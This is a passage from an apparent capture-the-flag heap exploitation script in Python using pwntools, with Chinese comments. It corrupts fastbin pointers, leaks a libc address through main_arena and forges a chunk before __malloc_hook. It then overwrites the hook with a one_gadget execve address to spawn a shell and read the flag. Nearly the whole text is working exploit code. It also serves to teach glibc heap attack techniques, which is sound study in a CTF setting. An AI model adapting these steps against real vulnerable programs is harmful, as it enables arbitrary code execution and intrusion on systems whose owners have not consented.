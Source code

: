    ```python
   add(0x80,b'e')    #4 small chunk用来得到main_arena地址
   
   free(1)
   free(2)
   
   #修改chunk2的fd指针，指向chunk4
   payload = p64(0)*3 + p64(0x21)+p64(0)*3+p64(0x21)+p8(0x80)
   fill(0,payload)
   
   #修改chunk4的size字段，申请时绕过fastbin的检查
   payload = p64(0)*3+p64(0x21)
   fill(3,payload)
   
   #第二次申请chunk4（2）
   add(0x10,b'f')    #1
   add(0x10,b'g')    #2 与4一起指向small chunk
   #将chunk4的size字段改回来
   payload = p64(0)*3 + p64(0x91)
   fill(3,payload)
   
   
   #防止chunk4释放后，进入top chunk
   add(0x10,b'h')  #5 
   free(4)
   
   #由于2被释放，所以用4来输出其中的main_arena，如果前面释放的是chunk2，那就用chunk4打印
   dump(2)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   malloc_hook = libc.symbols["__malloc_hook"]+libc_base
   execve_addr  = 0x4526a + libc_base
   success("malloc_hook==>"+hex(malloc_hook))
   success("execve_addr==>"+hex(execve_addr))
   
   #申请一个size字段为0x71的chunk，再释放掉，如何修改其fd值，指向malloc_hook前面size为0x7f的空间伪造chunk（malloc_hook-0x23）
   add(0x60,b'6')  #4
   free(4)
   payload = b"AAAAAAAA"*3 + p64(0x71) + p64(malloc_hook-0x23)
   fill(3,payload)
   
   
   #将伪造的chunk申请回来
   add(0x60,b't')  #4
   add(0x60,b'j')  #6
   
   #覆盖malloc_hook指向execve_addr
   payload = b"AAAAAAAA"*2+b"aaa"+p64(execve_addr)
   fill(6,payload)
   
   #调用evecve("/bin/sh")
   add(0x100,b'lzl')
   p.sendline(b"cat flag")
   p.interactive()
   ```
